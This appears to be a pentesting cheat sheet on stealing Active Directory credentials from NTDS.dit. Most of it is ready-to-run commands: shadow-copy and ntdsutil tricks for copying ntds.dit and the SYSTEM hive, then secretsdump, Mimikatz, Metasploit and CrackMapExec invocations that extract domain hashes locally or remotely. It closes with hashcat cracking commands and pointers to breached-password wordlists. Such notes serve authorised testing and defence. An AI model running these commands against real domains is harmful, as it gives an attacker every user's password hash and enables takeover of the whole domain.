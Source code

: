 # NTDS.dit & vshadow

<mark style="color:green;">**The Ntds.dit file is a database that stores Active Directory data, including information about user objects, groups, and group membership. It includes the password hashes for all users in the domain.**</mark>

#### <mark style="color:green;">The important NTDS.dit file will be located in: %SystemRoom%/NTDS/ntds.dit This file is a database Extensible Storage Engine (ESE) and is "officially" composed by 3 tables:</mark>

```
Data Table: Contains the information about the objects (users, groups...)
Link Table: Information about the relations (member of...)
SD Table: Contains the security descriptors of each object
```

Windows uses Ntdsa.dll to interact with that file and its used by lsass.exe. Then, part of the NTDS.dit file could be located inside the lsass memory (you can find the lastet accessed data probably because of the performance impruve by using a cache).

## <mark style="color:red;">Decrypting the hashes inside NTDS.dit</mark>

You will need the following files to extract the ntds :

* <mark style="color:green;">NTDS.dit file</mark>
* <mark style="color:green;">SYSTEM hive (C:\Windows\System32\SYSTEM)</mark>

Usually you can find the ntds in two locations : `systemroot\NTDS\ntds.dit` and `systemroot\System32\ntds.dit`.

* `systemroot\NTDS\ntds.dit` stores the database that is in use on a domain controller. It contains the values for the domain and a replica of the values for the forest (the Configuration container data).
* `systemroot\System32\ntds.dit` is the distribution copy of the default directory that is used when you install Active Directory on a server running Windows Server 2003 or later to create a domain controller. Because this file is available, you can run the Active Directory Installation Wizard without having to use the server operating system CD.

However you can change the location to a custom one, you will need to query the registry to get the current location.

```
reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

The hash is cyphered 3 times:

```
Decrypt Password Encryption Key (PEK) using the BOOTKEY and RC4.
Decrypt tha hash using PEK and RC4.
Decrypt the hash using DES.
```

PEK have the same value in every domain controller, but it is cyphered inside the NTDS.dit file using the BOOTKEY of the SYSTEM file of the domain controller (is different between domain controllers). This is why to get the credentials from the NTDS.dit file you need the files NTDS.dit and SYSTEM (C:\Windows\System32\config\SYSTEM).

### <mark style="color:orange;">Copying NTDS.dit using Ntdsutil</mark>

Available since Windows Server 2008.

```
ntdsutil "ac i ntds" "ifm" "create full c:\copy-ntds" quit quit
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```

or run ntdsutil interactivly:

```
C:\>ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```

## <mark style="color:red;">Vshadow</mark>

You could also use the volume shadow copy trick to copy the ntds.dit file. Remember that <mark style="color:green;">**you will also need a copy of the SYSTEM file (again, dump it from the registry or use the volume shadow copy trick).**</mark>

```
vssadmin create shadow /for=C :
Copy Shadow_Copy_Volume_Name\windows\ntds\ntds.dit c:\ntds.dit
```

You can also use the Nishang script, available at : [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

```
Import-Module .\Copy-VSS.ps1
Copy-VSS
Copy-VSS -DestinationDir C:\ShadowCopy\
```

### <mark style="color:orange;">**Using vssadmin**</mark>

```
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
```

### <mark style="color:orange;">**Using DiskShadow (a Windows signed binary)**</mark>

```
diskshadow.txt contains :
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset

then:
NOTE - must be executed from C:\Windows\System32
diskshadow.exe /s  c:\diskshadow.txt
dir c:\exfil
reg.exe save hklm\system c:\exfil\system.bak
```

### <mark style="color:orange;">**Using esentutl.exe**</mark>

**​​**Copy/extract a locked file such as the AD Database

```
esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\folder\ntds.dit
```



## <mark style="color:red;">Extracting hashes from NTDS.dit</mark>

Once you have obtained the files NTDS.dit and SYSTEM you can use tools like secretsdump.py to extract the hashes:

```
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL -outputfile credentials.txt
```

### <mark style="color:orange;">remote NTDS.dit Dump</mark>

You can also extract them automatically using a valid domain admin user:

```
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>
./secretsdump.py -dc-ip IP AD\administrator@domain -use-vss -pwd-last-set -user-status 
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

* `-pwd-last-set`: Shows pwdLastSet attribute for each NTDS.DIT account.
* `-user-status`: Display whether or not the user is disabled.

### <mark style="color:orange;">Metasploit & Mimikatz Modules</mark>

Finally, you can also use the metasploit module:

```
post/windows/gather/credentials/domain_hashdump
lsadump::lsa /inject
```

### <mark style="color:orange;">PowerSploit module</mark>

```
Invoke-NinjaCopy --path c:\windows\NTDS\ntds.dit --verbose --localdestination c:\ntds.dit
```

### <mark style="color:orange;">CrackMapExec module</mark>

```
cme smb 10.10.0.202 -u username -p password --ntds vss
cme smb 10.10.0.202 -u username -p password --ntds drsuapi #default
```

### <mark style="color:orange;">Mimikatz</mark>

{% hint style="info" %}
Dumps credential data in an Active Directory domain when run on a Domain Controller.

This requires administrator access with debug or Local SYSTEM rights.
{% endhint %}

```
sekurlsa::krbtgt
lsadump::lsa /inject /name:krbtgt
```

## <mark style="color:red;">**Crack NTLM hashes with hashcat**</mark>

Useful when you want to have the clear text password or when you need to make stats about weak passwords.

Recommended wordlists:

Have I Been Powned ([https://hashes.org/download.php?hashlistId=7290\&type=hfound](https://hashes.org/download.php?hashlistId=7290\&type=hfound))

Collection #1 (passwords from Data Breaches, might be illegal to possess)

```
# Basic wordlist
# (-O) will Optimize for 32 characters or less passwords
# (-w 4) will set the workload to "Insane" 
$ hashcat64.exe -m 1000 -w 4 -O -a 0 -o pathtopotfile pathtohashes pathtodico -r ./rules/best64.rule --opencl-device-types 1,2

# Generate a custom mask based on a wordlist
$ git clone https://github.com/iphelix/pack/blob/master/README
$ python2 statsgen.py ../hashcat.potfile -o hashcat.mask
$ python2 maskgen.py hashcat.mask --targettime 3600 --optindex -q -o hashcat_1H.hcmask
```

If the password is not a confidential data (challenges/ctf), you can use online "cracker" like :

* [hashes.org](https://hashes.org/check.php)
* [hashes.com](https://hashes.com/en/decrypt/hash)
